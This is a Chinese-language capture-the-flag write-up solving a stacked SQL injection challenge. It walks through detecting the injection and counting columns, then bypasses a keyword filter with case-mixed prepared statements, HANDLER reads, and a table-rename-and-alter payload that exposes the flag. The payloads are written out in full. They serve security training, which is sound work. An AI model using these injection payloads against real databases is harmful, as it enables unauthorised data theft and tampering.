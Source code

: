 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-19
---
```


## flag

（每一次的flag都不同）

## 思路

1. 对于这类直观的SQL注入题目，可以直接输入几组数据进行测试。输入1，会正常显示查询结果。

   接下来就判断是字符型注入还是数字型注入。

   一般数字型注入：

   ​	`select * from *** where id=num`

   - 2-1  --》 正常显示输入1时的结果
   - 1 and 1=1和1 and 1=2 两次结果不同

   字符型注入：

      `select * from *** where id ='num'`

   - 1' and '1'='1  和1' and '1'='2 结果不同
   - 1' and '1'='1' --+ 和 1' and '1'='2' --+ 结果不同

<img src="../images/image-20201222212022041.png" alt="image-20201222212022041" style="zoom:33%;" />

2. 本题输入1' and '1'='1，显示结果和直接输入1一致。

   <img src="../images/image-20201222213617141.png" alt="image-20201222213617141" style="zoom:33%;" />

   再输入1' and '1'='2，无任何结果显示。说明存在sql字符型注入。

   <img src="../images/image-20201222213724343.png" alt="image-20201222213724343" style="zoom:33%;" />

   3. 确定字符型注入之后，判断列数 1' order by 1/2/3--+

      order by 3时页面显示不正常，说明只存在两列。

      另一种判断列数方法，1' union select 1,2,3(....) --+

   4. 尝试union select语句时，页面直接显示：

      <img src="../images/image-20201222215509025.png" alt="image-20201222215509025" style="zoom:33%;" />

      说明waf将select、update、delete、drop、insert和where等关键字过滤。

   5. 考虑堆叠注入，利用;闭合前面语句的执行，再加上需要执行的语句，且以上常见的关键字都被过滤掉了

      --》可以使用`show databases/tables/columns from table`来获取数据库、数据表和列名。

   6. 获取数据库相关信息   

      `1';show databases;--+`

      获取当前数据库中的表信息

      `1';show tables;--+`

      <img src="../images/image-20201222220208159.png" alt="image-20201222220208159" style="zoom:33%;" />

      获取表中的列信息

      `1';show columns from words;--+`

      <img src="../images/image-20201222220640461.png" alt="image-20201222220640461" style="zoom:33%;" />
   
      `1';show columns from 1919810931114514;--+` (当数据表名为数字时，需要使用``括起来)
   
      <img src="../images/image-20201222220806395.png" alt="image-20201222220806395" style="zoom:33%;" />
   
   7. 可以从两个的列信息中看出，words中主要是id和data两列，有可能在输入框中输入数字时，后端读取的就是该表中的内容；另一个表中有flag列，说明flag可能存在于该表中。
   
   8. 因此，要想获取flag，则有两种思路：
   
      1. 直接从flag列中读取
         1. 绕过select过滤
         2. handler语句
      2. 将表1919810931114514添加一列id，并改名成flag（让前端传数据到后端后，后端实际操作的是该表，就可以直接将表中的数据读出来）
   
   9. 难点1：直接从flag表中读数据--》select被过滤
   
      **绕过select过滤方法：**
   
      - 大小写绕过、添加/**/绕过（但此处preg_match中的正则表达式最后为/i，说明在匹配时不区分大小写，故此方法无用）
   
      - 使用预处理语句
   
        预处理的流程包含：
   
        > ```sql
        > SET @**;								# 用于设置变量名和值
        > PREPARE stmt_name FROM preparable_stmt;	# 用于预备一个语句，并赋予名称，以后可以引用该语句
        > EXECUTE stmt_name;			 			# 执行语句
        > {DEALLOCATE | DROP} PREPARE stmt_name;	# 用来释放掉预处理的语句
        > ```
   
      ​        对于本题构造的预处理语句如下：
   
      ```sql
      1';SEt @a=concat("SEl","ect flag from `1919810931114514`");PRepare hello from @a;execute hello;#
      ```
   
      说明：预处理语句中set和prepare均使用大小写混用，因为页面提示输出以下内容。
   
      ```
      [OUTPUT]: strstr($inject, "set") && strstr($inject, "prepare")
      ```
   
      ​    strstr()函数对大小写敏感，所以可以使用大写绕过。
   
   10. 直接使用handler语句
   
       mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
   
       > ```sql
       > HANDLER tbl_name OPEN [ [AS] alias]
       > # 打开一张表，无返回结果，实际上声明了一个名为tb1_name的句柄。
       > HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ { FIRST | NEXT }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > # 获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
       > HANDLER tbl_name CLOSE
       > # 关闭打开的句柄。
       > ```
   
       ```sql
       
       1';
       handler `1919810931114514` open;
       handler `1919810931114514` read first;-- +
       ```
   
       
   
   11. 难点2：“换个名”（考察对sql操作熟练程度）
   
       根据前文的分析，可以看出在输入框中输入数字1、2等之后，后端接收数字之后在words数据表中查询内容显示，而根据前面已经查询已经得出表words和表1919810931114514的列信息，因此可以尝试（换个名），将表1919810931114514的表结构改成和words一样，即增加一个id列，且将表名改成words，即可直接通过在输入框中输入1，来获取flag值。
   
       步骤：
   
       - 表words改名：rename table words to new_word;
   
       - 表1919810931114514增加id列：alter table 1919810931114514 add id int unsigned not Null auto_increment primary key;
   
       - 修改表1919810931114514的flag列为data列名：alter table 1919810931114514 change flag data varchar(100);
   
       - 表1919810931114514改名：rename table `1919810931114514` to words;
   
         此时再直接向输入框中输入1，即可获取flag的内容。
   
       ```sql
       1';rename table words to temp;alter table `1919810931114514` add id int unsigned not Null auto_increment primary key;alter table `1919810931114514` change flag data varchar(100);rename table `1919810931114514` to words;#
       ```

## 总结

- 本题考察对sql注入各种类型的熟练程度，如果对每种sql注入类型都比较了解，则可以比较快的定位到使用堆叠注入。
- 因为select、update、delete、drop、insert和where这些关键字均被过滤掉，而且采用常见的大小写绕过、注释符绕过不行，所以常用的union注入走不通。
- 使用堆叠注入，就意味着可以正常构造一些sql进行执行，查询需要的数据。show database、tables、columns from table_name，即可获取数据库名、表名和列名。
- 两种绕过select过滤方法
  - **直接**  使用预处理语句或者handler语句（mysql特有）
  - **间接**  利用题目已有的条件，改表名和表结构
- 注意  当表名、字段名为数字时，需要用**反引号**来标识